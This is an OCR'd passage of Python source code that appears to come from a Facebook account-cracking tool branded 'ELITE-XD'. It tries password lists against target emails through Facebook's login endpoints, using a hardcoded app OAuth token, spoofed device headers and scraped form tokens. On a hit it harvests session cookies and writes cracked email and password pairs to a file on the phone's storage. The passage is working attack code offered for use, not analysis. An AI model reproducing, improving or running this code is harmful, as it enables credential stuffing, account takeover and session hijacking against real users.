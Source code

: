             'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
            'X-FB-Friendly-Name': 'authenticate',
            'X-FB-Connection-Bandwidth': str(random.randint(20000, 40000)),
            'X-FB-Net-HNI': str(random.randint(20000, 40000)),
            'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
            'X-FB-Connection-Type': 'unknown',
            'Content-Type': 'application/x-www-form-urlencoded',
            'X-FB-HTTP-Engine': 'Liger'}
            url1= 'https://b-graph.facebook.com/auth/login'
            q = requests.post(url1,data=data,headers=head,allow_redirects=False).json()
            if "session_key" in q:
                cid=q["uid"]
                coki=";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                if "Alive" == live_ck(cid):
                    print(f"\r\r[reverse white][FreeFire][/reverse white] {cid} | {ps}   \n[🎮][green1]{coki} \n")
                    open("/sdcard/FreeFire.txt","a").write(Gmail+"|"+ps+"\n")
                    oks.append(Gmail)
                    break
                else:pass
            elif "Please Confirm Email" in q:
                cid=q["uid"]
                coki=";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                if "Alive" == live_ck(cid):
                    print(f"\r\r[reverse white][FreeFire][/reverse white] {cid} | {ps}   \n[🎮][green1]{coki} \n")
                    open("/sdcard/FreeFire.txt.txt","a").write(Gmail+"|"+ps+"\n")
                    oks.append(Gmail)
                    break
                else:pass
            else:
                continue
        done+=1
    except:
        time.sleep(4)



def normal(Gmail,psslist):
    global oks,done,ugen
    sys.stdout.write(f"\r  \033[38;5;46m[ELITE-XD] {done}|{str(len(oks))}\r");sys.stdout.flush()
    try:
        for ps in psslist:
            session=requests.session()
            uuu=random.choice(ugen)
            free_fb = session.get('https://m.facebook.com').text
            info={"lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),"m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),"li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),"try_number":"0","unrecognized_tries":"0","email":Gmail,"pass":ps,"login":"Log In"}
            update= {
            "authority": 'm.facebook.com',
            "method": 'POST',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            "cache-control": 'no-cache, no-store, must-revalidate',
            "referer": 'https://m.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?0',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?1',